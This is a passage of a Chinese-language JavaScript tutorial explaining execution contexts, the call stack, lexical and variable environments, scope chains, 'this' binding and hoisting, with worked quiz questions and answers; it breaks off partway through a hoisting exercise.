


执行上下文
执行上下文
执行上下文是评估和执行 JavaScript 代码的环境的抽象概念。每当 Javascript 代码在运行的时候，它都是在执行上下文中运行。
它有以下分类：
- 全局执行上下文 — 这是默认或者说基础的上下文，任何不在函数内部的代码都在全局上下文中。它会执行两件事：创建一个全局的 window 对象（浏览器的情况下），并且设置 this 的值等于这个全局对象。一个程序中只会有一个全局执行上下文。
- 函数执行上下文 — 每当一个函数被调用时, 都会为该函数创建一个新的上下文。每个函数都有它自己的执行上下文，不过是在函数被调用时创建的。函数上下文可以有任意多个。每当一个新的执行上下文被创建，它会按定义的顺序（将在后文讨论）执行一系列步骤。
- eval 函数执行上下文 — 执行在 eval 函数内部的代码也会有它属于自己的执行上下文，但由于 JavaScript 开发者并不经常使用 eval，所以在这里我不会讨论它。
- 当 JavaScript 执行全局代码的时候，会编译全局代码并创建全局执行上下文，而且在整个页面的生存周期内，全局执行上下文只有一份。
- 当调用一个函数的时候，函数体内的代码会被编译，并创建函数执行上下文，一般情况下，函数执行结束之后，创建的函数执行上下文会被销毁。
- 当使用 eval 函数的时候，eval 的代码也会被编译，并创建执行上下文。
执行上下文是 JavaScript 执行一段代码时的运行环境，在执行上下文中存在一个变量环境的对象（Viriable Environment）。
showName()
console.log(myname)
var myname = 'test'
function showName() {
console.log('函数showName被执行');
}
- 第 1 行和第 2 行，由于这两行代码不是声明操作，所以 JavaScript 引擎不会做任何处理；
- 第 3 行，由于这行是经过 var 声明的，因此 JavaScript 引擎将在环境对象中创建一个名为 myname 的属性，并使用 undefined 对其初始化；
- 第 4 行，JavaScript 引擎发现了一个通过 function 定义的函数，所以它将函数定义存储到堆 (HEAP）中，并在环境对象中创建一个 showName 的属性，然后将该属性值指向堆中函数的位置。
- 当执行到 showName 函数时，JavaScript 引擎便开始在变量环境对象中查找该函数，由于变量环境对象中存在该函数的引用，所以 JavaScript 引擎便开始执行该函数，并输出“函数 showName 被执行”结果。
- 接下来打印“myname”信息，JavaScript 引擎继续在变量环境对象中查找该对象，由于变量环境存在 myname 变量，并且其值为 undefined，所以这时候就输出 undefined。
- 接下来执行第 3 行，把“test”赋给 myname 变量，赋值后变量环境中的 myname 属性值改变为“test”
总结：
- JavaScript 代码执行过程中，需要先做变量提升，而之所以需要实现变量提升，是因为 JavaScript 代码在执行之前需要先编译。
- 在编译阶段，变量和函数会被存放到变量环境中，变量的默认值会被设置为 undefined；在代码执行阶段，JavaScript 引擎会从变量环境中去查找自定义的变量和函数。
- 如果在编译阶段，存在两个相同的函数，那么最终存放在变量环境中的是最后定义的那个，这是因为后定义的会覆盖掉之前定义的。
如果变量和函数同名，那么在编译阶段，变量的声明会被忽略。（这个规则是在编译截断变量提升的时候）
调用栈
执行栈，也就是在其它编程语言中所说的“调用栈”，用来存储代码运行时创建的所有执行上下文。
当 JavaScript 引擎第一次遇到你的脚本时，它会创建一个全局的执行上下文并且压入当前调用栈。每当引擎遇到一个函数调用，它会为该函数创建一个新的执行上下文并压入栈的顶部。
引擎会执行那些执行上下文位于栈顶的函数。当该函数执行结束时，执行上下文从栈中弹出，控制流程到达当前栈中的下一个上下文。
var a = 2
function add(b,c) {
return b + c
}
function addAll(b,c) {
var d = 10
result = add(b,c)
return a + result + d
}
addAll(3,6)
- 创建全局上下文，并将其压入栈底。全局上下文的变量环境对象包含 变量 a = undefined；函数 add；函数 addAll。
- 开始执行全局代码。变量 a 赋值变为 2。
- addAll 函数被调用。编译该函数创建一个执行上下文，将该函数的执行上下文压入栈。d = undefined；result = undefined。
- 执行 addAll 函数代码。d 赋值为 10。
- add 函数被调用。编译该函数创建一个执行上下文，将该函数的执行上下文压入栈。
- 执行 add 函数代码。返回 9，add 函数执行上下文从调用栈中弹出。addAll 中 result 被赋值为 9。
- addAll 返回 21，addAll 函数执行上下文从调用栈中弹出。这时候调用栈中只剩下全局执行上下文了。
创建执行上下文
创建执行上下文有两个阶段：1) 创建阶段 和 2) 执行阶段。
在 JavaScript 代码执行前，执行上下文将经历创建阶段。在创建阶段会发生三件事：
- this 值的决定，即我们所熟知的 This 绑定。
- 创建词法环境组件。
- 创建变量环境组件。
this 绑定
在全局执行上下文中，this 的值指向全局对象。(在浏览器中，this引用 Window 对象)。
在函数执行上下文中，this 的值取决于该函数是如何被调用的。如果它被一个引用对象调用，那么 this 会被设置成那个对象，否则 this 的值被设置为全局对象或者 undefined（在严格模式下）。
词法环境
官方的 ES6 文档把词法环境定义为
词法环境是一种规范类型，基于 ECMAScript 代码的词法嵌套结构来定义标识符和具体变量和函数的关联。一个词法环境由环境记录器和一个可能的引用外部词法环境的空值组成。
简单来说词法环境是一种持有标识符—变量映射的结构。（这里的标识符指的是变量/函数的名字，而变量是对实际对象[包含函数类型对象]或原始数据的引用）。
现在，在词法环境的内部有两个组件：(1) 环境记录器和 (2) 一个外部环境的引用。
- 环境记录器是存储变量和函数声明的实际位置。
- 外部环境的引用意味着它可以访问其父级词法环境（作用域）。
词法环境有两种类型：
- 全局环境（在全局执行上下文中）是没有外部环境引用的词法环境。全局环境的外部环境引用是 null。它拥有内建的 Object/Array/等、在环境记录器内的原型函数（关联全局对象，比如 window 对象）还有任何用户定义的全局变量，并且
this的值指向全局对象。 - 在函数环境中，函数内部用户定义的变量存储在环境记录器中。并且引用的外部环境可能是全局环境，或者任何包含此内部函数的外部函数。
环境记录器也有两种类型（如上！）：
- 声明式环境记录器存储变量、函数和参数。
- 对象环境记录器用来定义出现在全局上下文中的变量和函数的关系。
简而言之，
- 在全局环境中，环境记录器是对象环境记录器。
- 在函数环境中，环境记录器是声明式环境记录器。
注意 — 对于函数环境，声明式环境记录器还包含了一个传递给函数的 arguments 对象（此对象存储索引和参数的映射）和传递给函数的参数的 length。
抽象地讲，词法环境在伪代码中看起来像这样：
GlobalExectionContext = { // 全局执行上下文
LexicalEnvironment: { // 词法环境
EnvironmentRecord: { // 环境记录器
Type: "Object",
// 在这里绑定标识符
}
outer: <null> // 外部环境引用
}
}
FunctionExectionContext = { // 函数执行上下文
LexicalEnvironment: { // 此法环境
EnvironmentRecord: { // 环境记录器
Type: "Declarative",
// 在这里绑定标识符
}
outer: <Global or outer function environment reference> // 外部环境引用
}
}
变量环境：
它同样是一个词法环境，其环境记录器持有变量声明语句在执行上下文中创建的绑定关系。
如上所述，变量环境也是一个词法环境，所以它有着上面定义的词法环境的所有属性。
在 ES6 中，词法环境组件和变量环境的一个不同就是前者被用来存储函数声明和变量（let 和 const）绑定，而后者只用来存储 var 变量绑定。
我们看点样例代码来理解上面的概念：
let a = 20;
const b = 30;
var c;
function multiply(e, f) {
var g = 20;
return e * f * g;
}
c = multiply(20, 30);
执行上下文看起来像这样：
GlobalExectionContext = { // 全局执行上下文
ThisBinding: <Global Object>, // 绑定 this 到全局变量
LexicalEnvironment: { // 词法环境
EnvironmentRecord: { // 环境记录器
Type: "Object",
// 在这里绑定标识符
a: < uninitialized >,
b: < uninitialized >,
multiply: < func >
}
outer: <null>
},
VariableEnvironment: { // 变量环境 只用来存储 var 变量
EnvironmentRecord: {
Type: "Object",
// 在这里绑定标识符
c: undefined,
}
outer: <null>
}
}
FunctionExectionContext = { // 函数执行上下文
ThisBinding: <Global Object>,
LexicalEnvironment: { // 词法环境
EnvironmentRecord: { // 环境记录器
Type: "Declarative",
// 在这里绑定标识符
Arguments: {0: 20, 1: 30, length: 2},
},
outer: <GlobalLexicalEnvironment>
},
VariableEnvironment: { // 变量环境 只用来存储 var 变量
EnvironmentRecord: {
Type: "Declarative",
// 在这里绑定标识符
g: undefined
},
outer: <GlobalLexicalEnvironment>
}
}
注意 — 只有遇到调用函数 multiply 时，函数执行上下文才会被创建。
可能你已经注意到 let 和 const 定义的变量并没有关联任何值，但 var 定义的变量被设成了 undefined。
这是因为在创建阶段时，引擎检查代码找出变量和函数声明，虽然函数声明完全存储在环境中，但是变量最初设置为 undefined（var 情况下），或者未初始化（let 和 const 情况下）。
这就是为什么你可以在声明之前访问 var 定义的变量（虽然是 undefined），但是在声明之前访问 let 和 const 的变量会得到一个引用错误。
这就是我们说的变量声明提升。
执行阶段
这是整篇文章中最简单的部分。在此阶段，完成对所有这些变量的分配，最后执行代码。
注意 — 在执行阶段，如果 JavaScript 引擎不能在源码中声明的实际位置找到 let 变量的值，它会被赋值为 undefined。
ES2018 中的执行上下文
以上介绍的是 ES5 的执行上下文，在 ES2018 中，执行上下文又变成了这个样子，this 值被归入 lexical environment，但是增加了不少内容。
- lexical environment：词法环境，当获取变量或者 this 值时使用。
- variable environment：变量环境，当声明变量时使用。
- code evaluation state：用于恢复代码执行位置。
- Function：执行的任务是函数时使用，表示正在被执行的函数。
- ScriptOrModule：执行的任务是脚本或者模块时使用，表示正在被执行的代码。
- Realm：使用的基础库和内置对象实例。
- Generator：仅生成器上下文有这个属性，表示当前生成器。
总结
- 当 JavaScript 引擎执行脚本时，它会创建一个全局执行上下文压入调用栈。每遇到一个函数调用，它会为该函数创建一个新的执行上下文并压入栈的顶部。引擎会执行那些执行上下文位于栈顶的函数。当该函数执行结束时，执行上下文从栈中弹出，控制流程到达当前栈中的下一个上下文。
- js 中有词法环境和变量环境，在创建阶段，let 和 const 在词法环境中，是未初始化的，而 var 在变量环境中，会初始化为 undefined，这就是变量提升的原因。
作用域
定义
作用域是指在程序中定义变量的区域，该位置决定了变量的生命周期。通俗地理解，作用域就是变量与函数的可访问范围，即作用域控制着变量和函数的可见性和生命周期。
有三种作用域：
- 全局作用域
- 函数作用域
- 块级作用域（ES6）
全局作用域
全局作用域中的对象在代码中的任何地方都能访问，其生命周期伴随着页面的生命周期。
函数作用域
函数作用域就是在函数内部定义的变量或者函数，并且定义的变量或者函数只能在函数内部被访问。函数执行结束之后，函数内部定义的变量会被销毁。
函数作用域需要注意的一点是它的作用域是声明时所在的作用域，而不是运行时的。
var a = 1;
var x = function () {
console.log(a);
};
function f() {
var a = 2;
x();
}
f() // 1
块级作用域
let 和 const 为 js 增加了块级作用域。
function f1() {
let n = 5;
if (true) {
let n = 10;
}
console.log(n); // 5
}
块级作用域中的函数声明
function f() { console.log('I am outside!'); }
(function () {
if (false) {
function f() { console.log('I am inside!'); }
}
f();
}());
上面的代码在 es5 环境中会打印 'I am inside!'，因为变量提升将内部的 f 函数提升到了函数内部最上面。
// ES5 环境
function f() { console.log('I am outside!'); }
(function () {
function f() { console.log('I am inside!'); }
if (false) {
}
f();
}());
而在 ES6 浏览器环境中表现不一样了，变量提升只会提升函数名 f ，然后赋值 undefined。
// 浏览器的 ES6 环境
function f() { console.log('I am outside!'); }
(function () {
if (false) {
function f() { console.log('I am inside!'); }
}
f();
}());
// Uncaught TypeError: f is not a function
等价于下面的代码
// 浏览器的 ES6 环境
function f() { console.log('I am outside!'); }
(function () {
var f = undefined;
if (false) {
function f() { console.log('I am inside!'); }
}
f();
}());
// Uncaught TypeError: f is not a function
ES6 如何同时实现块级作用域和变量提升
function foo() {
var a = 1
let b = 2
{
let b = 3
var c = 4
let d = 5
console.log(a)
console.log(b)
}
console.log(b)
console.log(c)
console.log(d)
}
foo()
- foo 函数被调用，编译并创建 foo 函数的执行上下文。其中包含变量环境和词法环境。
- 变量环境中：a = undefined c = undefined
- 词法环境：b = undefined
- 执行代码。变量环境中的 a 被赋值为 1，词法环境中的 b 被赋值为 2
- 进入块级作用域，词法环境中的栈压入块级作用域的新变量 b = undefined 和 d = undefined。然后执行块作用域中的代码，b 赋值为 3，d 赋值为 5。变量环境中的 c 赋值为 4。然后执行打印操作，打印的是变量环境中的 a = 1 和 词法环境中栈顶的块作用域的 b = 3。
- 块作用域代码执行完毕，词法环境中栈顶的块作用域变量从栈中弹出。
- 接着执行函数作用域中剩余代码
注意：
- 在词法环境内部，维护了一个小型栈结构，栈底是函数最外层的变量，进入一个块作用域后，就会把该块作用域内部的变量压到栈顶；当作用域执行完成之后，该作用域的信息就会从栈顶弹出，这就是词法环境的结构。
- 执行块作用域中代码需要查找变量时，具体查找方式是：沿着词法环境的栈顶向下查询，如果在词法环境中的某个块中查找到了，就直接返回给 JavaScript 引擎，如果没有查找到，那么继续在变量环境中查找。
作用域链
- 每个执行上下文的变量环境中，都包含了一个外部引用，用来指向外部的执行上下文，我们把这个外部引用称为 outer。
- 查找变量时，如果在当前的变量环境中没有查找到，那么 JavaScript 引擎会继续在 outer 所指向的执行上下文中查找
- 这个查找的链条就称为作用域链
词法作用域
var a = 1;
var x = function () {
console.log(a);
};
function f() {
var a = 2;
x();
}
f() // 1
- 词法作用域就是指作用域是由代码中函数声明的位置来决定的，所以词法作用域是静态的作用域，通过它就能够预测代码在执行过程中如何查找标识符。
- 词法作用域是代码编译阶段就决定好的，和函数是怎么调用的没有关系。
块级作用域中的变量查找
function bar() {
var myName = "bar name"
let test1 = 100
if (1) {
let myName = "bar inner name"
console.log(test)
}
}
function foo() {
var myName = "foo name"
let test = 2
{
let test = 3
bar()
}
}
var myName = "global name"
let myAge = 10
let test = 1
foo()
当代码执行到 bar 中打印时，调用栈如下（从栈顶到栈底）：
- bar 执行上下文
- 变量环境
- myName = "bar name"
- outer 外部引用指向全局执行上下文
- 词法环境
- myName = "bar inner name"
- test1 = 100
- 变量环境
- foo 执行上下文
- 变量环境
- myName = "foo name"
- outer 外部引用指向全局执行上下文
- 词法环境
- test = 3
- test = 2
- 变量环境
- 全局执行上下文
- 变量环境
- myName = "global name"
- 词法环境
- myAge = 10 test = 1
- 变量环境
注意词法环境自己也是栈结构。
bar 函数中打印 test 变量的时候，查找变量的顺序如下：
- bar 执行上下文
- 变量环境 ------------------------------------- 3
- myName = "bar name"
- outer 外部引用指向全局执行上下文
- 词法环境
- myName = "bar inner name" ------------------------------------- 1
- test1 = 100 ------------------------------------- 2
- 变量环境 ------------------------------------- 3
- foo 执行上下文
- 变量环境
- myName = "foo name"
- outer 外部引用指向全局执行上下文
- 词法环境
- test = 3
- test = 2
- 变量环境
- 全局执行上下文
- 变量环境
- myName = "global name" ------------------------------------- 5
- 词法环境
- myAge = 10 test = 1 ------------------------------------- 4
- 变量环境
this绑定
概念
- 执行上下文中除了变量环境，词法环境，outer 外部引用，还有 this。
- 全局执行上下文中，this 指向 window。默认情况下，函数执行上下文中 this 也指向 window，如果函数中使用了严格模式，函数直接调用时 this 指向 undefined。
如何判断 this 执行指向
- 函数是否在new 中调用（new 绑定）？如果是的话this 绑定的是新创建的对象。
var bar = new foo()
- 函数是否通过call、apply（显式绑定）或者硬绑定调用？如果是的话，this 绑定的是指定的对象。
var bar = foo.call(obj2)
- 函数是否在某个上下文对象中调用（隐式绑定）？如果是的话，this 绑定的是那个上下文对象。
var bar = obj1.foo()
- 如果都不是的话，使用默认绑定。如果在严格模式下，就绑定到 undefined，否则绑定到全局对象。
var bar = foo()
- 一个最常见的 this 绑定问题就是被隐式绑定的函数会丢失绑定对象，也就是说它会应用默认绑定。
function foo() {
console.log( this.a );
}
var obj = {
a: 2,
foo: foo
};
var bar = obj.foo; // 函数别名！
var a = "oops, global"; // a 是全局对象的属性
bar(); // "oops, global"
还有将函数作为参数传递的情况：
function foo() {
console.log( this.a );
}
function doFoo(fn) {
// fn 其实引用的是foo
fn(); // <-- 调用位置！
}
var obj = {
a: 2,
foo: foo
};
var a = "oops, global"; // a 是全局对象的属性
doFoo( obj.foo ); // "oops, global"
还有 setTimeout 也一样：
function foo() {
console.log( this.a );
}
var obj = {
a: 2,
foo: foo
};
var a = "oops, global"; // a 是全局对象的属性
setTimeout( obj.foo, 100 ); // "oops, global"
还有数组的那些遍历处理的方法，也是将函数作为参数传递进去：
var o = {
v: 'hello',
p: [ 'a1', 'a2' ],
f: function f() {
this.p.forEach(function (item) {
console.log(this.v + ' ' + item);
});
}
}
o.f()
// undefined a1
// undefined a2
对象的方法中立即执行的函数也会使用默认绑定：
var o = {
f1: function () {
console.log(this);
var f2 = function () {
console.log(this);
}();
}
}
o.f1()
// Object
// Window
回调函数也会丢失绑定，使用默认绑定：
var o = new Object();
o.f = function () {
console.log(this === o);
}
// jQuery 的写法
$('#button').on('click', o.f);
赋值表达式，条件表达式，逗号表达式的返回值都会使函数中的 this 丢失之前的隐式绑定，而去使用默认绑定，将 this 绑定到 window 上：
// 情况一
(obj.foo = obj.foo)() // window
// 情况二
(false || obj.foo)() // window
// 情况三
(1, obj.foo)() // window
- 箭头函数不绑定 this
箭头函数不使用this的四种标准规则（也就是不绑定this），而是根据外层作用域来决定this。
// 情况一
var obj = {
data: [],
getData: function() {
setTimeout(() => {
var res = ["abc", "cba", "nba"];
this.data.push(...res); // obj.data
}, 1000);
}
}
obj.getData();
// 情况二
var obj = {
data: [],
getData: () => {
setTimeout(() => {
console.log(this); // window
}, 1000);
}
}
obj.getData();
隐式绑定丢失的情况：
- 函数别名
- 将函数作为参数传递
- setTimeout setInterval 的回调
- 数组的遍历方法：forEach map filter 等
- addEventListener 传递的回调也会隐式丢失，this 会绑定到事件添加到的那个 html 元素上
- 对象的方法中的立即执行函数
- 赋值表达式，条件表达式，逗号表达式的返回值
题目
第一题
var name = "window";
var person = {
name: "person",
sayName: function () {
console.log(this.name);
}
};
function sayName() {
var sss = person.sayName;
sss();
person.sayName();
(person.sayName)();
(b = person.sayName)();
}
sayName();
答案
function sayName() {
var sss = person.sayName;
// 独立函数调用，没有和任何对象关联
sss(); // window
// 关联
person.sayName(); // person
(person.sayName)(); // person
(b = person.sayName)(); // window
}
第二题
var name = 'window'
var person1 = {
name: 'person1',
foo1: function () {
console.log(this.name)
},
foo2: () => console.log(this.name),
foo3: function () {
return function () {
console.log(this.name)
}
},
foo4: function () {
return () => {
console.log(this.name)
}
}
}
var person2 = { name: 'person2' }
person1.foo1();
person1.foo1.call(person2);
person1.foo2();
person1.foo2.call(person2);
person1.foo3()();
person1.foo3.call(person2)();
person1.foo3().call(person2);
person1.foo4()();
person1.foo4.call(person2)();
person1.foo4().call(person2);
答案
// 隐式绑定，肯定是person1
person1.foo1(); // person1
// 隐式绑定和显示绑定的结合，显示绑定生效，所以是person2
person1.foo1.call(person2); // person2
// foo2()是一个箭头函数，不适用所有的规则
person1.foo2() // window
// foo2依然是箭头函数，不适用于显示绑定的规则
person1.foo2.call(person2) // window
// 获取到foo3，但是调用位置是全局作用于下，所以是默认绑定window
person1.foo3()() // window
// foo3显示绑定到person2中
// 但是拿到的返回函数依然是在全局下调用，所以依然是window
person1.foo3.call(person2)() // window
// 拿到foo3返回的函数，通过显示绑定到person2中，所以是person2
person1.foo3().call(person2) // person2
// foo4()的函数返回的是一个箭头函数
// 箭头函数的执行找上层作用域，是person1
person1.foo4()() // person1
// foo4()显示绑定到person2中，并且返回一个箭头函数
// 箭头函数找上层作用域，是person2
person1.foo4.call(person2)() // person2
// foo4返回的是箭头函数，箭头函数只看上层作用域
person1.foo4().call(person2) // person1
第三题
var name = 'window'
function Person (name) {
this.name = name
this.foo1 = function () {
console.log(this.name)
},
this.foo2 = () => console.log(this.name),
this.foo3 = function () {
return function () {
console.log(this.name)
}
},
this.foo4 = function () {
return () => {
console.log(this.name)
}
}
}
var person1 = new Person('person1')
var person2 = new Person('person2')
person1.foo1()
person1.foo1.call(person2)
person1.foo2()
person1.foo2.call(person2)
person1.foo3()()
person1.foo3.call(person2)()
person1.foo3().call(person2)
person1.foo4()()
person1.foo4.call(person2)()
person1.foo4().call(person2)
答案
// 隐式绑定
person1.foo1() // peron1
// 显示绑定优先级大于隐式绑定
person1.foo1.call(person2) // person2
// foo是一个箭头函数，会找上层作用域中的this，那么就是person1
person1.foo2() // person1
// foo是一个箭头函数，使用call调用不会影响this的绑定，和上面一样向上层查找
person1.foo2.call(person2) // person1
// 调用位置是全局直接调用，所以依然是window（默认绑定）
person1.foo3()() // window
// 最终还是拿到了foo3返回的函数，在全局直接调用（默认绑定）
person1.foo3.call(person2)() // window
// 拿到foo3返回的函数后，通过call绑定到person2中进行了调用
person1.foo3().call(person2) // person2
// foo4返回了箭头函数，和自身绑定没有关系，上层找到person1
person1.foo4()() // person1
// foo4调用时绑定了person2，返回的函数是箭头函数，调用时，找到了上层绑定的person2
person1.foo4.call(person2)() // person2
// foo4调用返回的箭头函数，和call调用没有关系，找到上层的person1
person1.foo4().call(person2) // person1
第四题
var name = 'window'
function Person (name) {
this.name = name
this.obj = {
name: 'obj',
foo1: function () {
return function () {
console.log(this.name)
}
},
foo2: function () {
return () => {
console.log(this.name)
}
}
}
}
var person1 = new Person('person1')
var person2 = new Person('person2')
person1.obj.foo1()()
person1.obj.foo1.call(person2)()
person1.obj.foo1().call(person2)
person1.obj.foo2()()
person1.obj.foo2.call(person2)()
person1.obj.foo2().call(person2)
答案
// obj.foo1()返回一个函数
// 这个函数在全局作用于下直接执行（默认绑定）
person1.obj.foo1()() // window
// 最终还是拿到一个返回的函数（虽然多了一步call的绑定）
// 这个函数在全局作用于下直接执行（默认绑定）
person1.obj.foo1.call(person2)() // window
person1.obj.foo1().call(person2) // person2
// 拿到foo2()的返回值，是一个箭头函数
// 箭头函数在执行时找上层作用域下的this，就是obj
person1.obj.foo2()() // obj
// foo2()的返回值，依然是箭头函数，但是在执行foo2时绑定了person2
// 箭头函数在执行时找上层作用域下的this，找到的是person2
person1.obj.foo2.call(person2)() // person2
// foo2()的返回值，依然是箭头函数
// 箭头函数通过call调用是不会绑定this，所以找上层作用域下的this是obj
person1.obj.foo2().call(person2) // obj
第五题
class C {
showThis() {
console.log(this);
}
}
var o = new C();
var showThis = o.showThis;
showThis();
o.showThis();
答案
类中的代码默认按照 strict 模式运行，所以 this 指向了 undefined 而不是 window
class C {
showThis() {
console.log(this);
}
}
var o = new C();
var showThis = o.showThis;
showThis(); // undefined
o.showThis(); // o
第六题
var name = 'aaa'
var obj = {
name: 'bbb',
show: function () {
console.log(this.name)
},
wait: function () {
var fn = this.show
fn()
}
}
obj.wait()
答案
var name = 'aaa'
var obj = {
name: 'bbb',
show: function () {
console.log(this.name)
},
wait: function () {
var fn = this.show
fn()
}
}
obj.wait()
// 'aaa'
第七题
function Foo() {
Foo.a = function() {
console.log(1)
}
this.a = function() {
console.log(2)
}
}
Foo.prototype.a = function() {
console.log(3)
}
Foo.a = function() {
console.log(4)
}
Foo.a();
let obj = new Foo();
obj.a();
Foo.a();
答案
function Foo() {
Foo.a = function() {
console.log(1)
}
this.a = function() {
console.log(2)
}
}
Foo.prototype.a = function() {
console.log(3)
}
Foo.a = function() {
console.log(4)
}
Foo.a();
let obj = new Foo();
obj.a();
Foo.a();
// 4 2 1
第八题
var n = 2
var obj = {
n: 3,
fn: (function(n) {
n *= 2
this.n += 2
var n = 5
console.log("window.n", window.n)
return function (m) {
console.log("n:", n, "m", m)
this.n *= 2
console.log(m + (++n))
}
})(n)
}
var fn = obj.fn;
fn(3)
obj.fn(3)
console.log(n, obj.n)
答案
var n = 2
var obj = {
n: 3,
fn: (function(n) {
n *= 2
this.n += 2
var n = 5
console.log("window.n", window.n)
return function (m) {
console.log("n:", n, "m:", m)
this.n *= 2
console.log(m + (++n))
}
})(n)
}
var fn = obj.fn; // window.n 4
fn(3) // "n:" 5 "m:" 3 9
obj.fn(3) // "n:" 6 "m:" 3 10
console.log(n, obj.n) // 8 6
变量提升
变量提升（Hoisting）被认为是， Javascript中执行上下文 （特别是创建和执行阶段）工作方式的一种认识。在 ECMAScript® 2015 Language Specification 之前的JavaScript文档中找不到变量提升（Hoisting）这个词。
例如，从概念的字面意义上说，“变量提升”意味着变量和函数的声明会在物理层面移动到代码的最前面，但这么说并不准确。实际上变量和函数声明在代码里的位置是不会动的，而是在编译阶段被放入内存中。
JavaScript 在执行任何代码段之前，将函数声明放入内存中的优点之一是，你可以在声明一个函数之前使用该函数。例如：
/**
* 不推荐的方式：先调用函数，再声明函数
*/
catName("Chloe");
function catName(name) {
console.log("我的猫名叫 " + name);
}
/*
代码执行的结果是: "我的猫名叫 Chloe"
*/
即使我们在定义这个函数之前调用它，函数仍然可以工作。这是因为在 JavaScript 中执行上下文的工作方式造成的。
变量提升也适用于其他数据类型和变量。变量可以在声明之前进行初始化和使用。但是如果没有初始化，就不能使用它们。
编译阶段变量提升的时候，如果是同名的函数，JavaScript编译阶段会选择最后声明的那个。 如果变量和函数同名，那么在编译阶段，变量的声明会被忽略。
JavaScript 只会提升声明，不会提升其初始化。如果一个变量先被使用再被声明和赋值的话，使用时的值是 undefined。
console.log(num); // Returns undefined
var num;
num = 6;
其他几个例子
// Example 1 - only y is hoisted
var x = 1; // 声明 + 初始化 x
console.log(x + " " + y); // '1 undefined'
var y = 2; // 声明 + 初始化 y
// Example 2 - Hoists
var num1 = 3; // Declare and initialize num1
num2 = 4; // Initialize num2
console.log(num1 + " " + num2); //'3 4'
var num2; // Declare num2 for hoisting
// Example 3 - Hoists
a = 'Cran'; // Initialize a
b = 'berry'; // Initialize b
console.log(a + "" + b); // 'Cranberry'
var a, b; // Declare both a & b for hoisting
函数表达式不会被提升：
notHoisted(); // TypeError: notHoisted is not a function
var notHoisted = function() {
console.log("bar");
};
函数形参和变量函数声明同名
函数的形参如果和函数中声明的变量重名了，那么变量声明的提升不影响函数形参：
function foo(a) {
console.log('a1', a);
var a = 'test';
console.log('a2', a)
}
foo(1)
// a1 1
// a2 test
如果函数形参和函数中声明的新函数同名，那么新函数会覆盖掉形参：
function foo(a) {
console.log('a1', a);
function a() {}
console.log('a2', a)
}
foo(1)
// a1 a(){}
// a2 a(){}
如果上面两种同时存在
function foo(a) {
console.log('a1', a);
var a = 'test';
function a() {}
console.log('a2', a)
}
foo(1)
// a1 a(){}
// a2 test
还需要注意的是函数中重复声明和形参同名的变量，而且不赋值的话，那么之后使用这个变量的时候是形参的值。
var a = 1;
function fn(a) {
var a;
console.log(a); // 1
}
fn(a);
题目
第一题
function foo() {
var a = b = 1;
a++;
return a;
}
foo()
console.log(b)
console.log(a)
答案
function foo() {
var a = b = 1;
// 等价于 var a = 1; b = 1; 这样就声明了一个全局变量 b
a++;
return a;
}
foo()
console.log(b) // 1
console.log(a) // Uncaught ReferenceError: a is not defined
第二题
console.log(a, b)
var a = 12, b = 'aaa'
function foo() {
console.log(a, b)
var a = b = 13
console.log(a, b)
}
foo()
console.log(a, b)
答案
console.log(a, b) // undefined undefined
var a = 12, b = 'aaa'
function foo() {
console.log(a, b) // undefined 'aaa'
var a = b = 13
console.log(a, b) // 13 13
}
foo()
console.log(a, b) // 12 13
第三题
console.log(a, b)
var a = 12, b = 'aaa'
function foo() {
console.log(a, b)
console.log(a, b)
}
foo()
console.log(a, b)
答案
console.log(a, b) // undefined undefined
var a = 12, b = 'aaa'
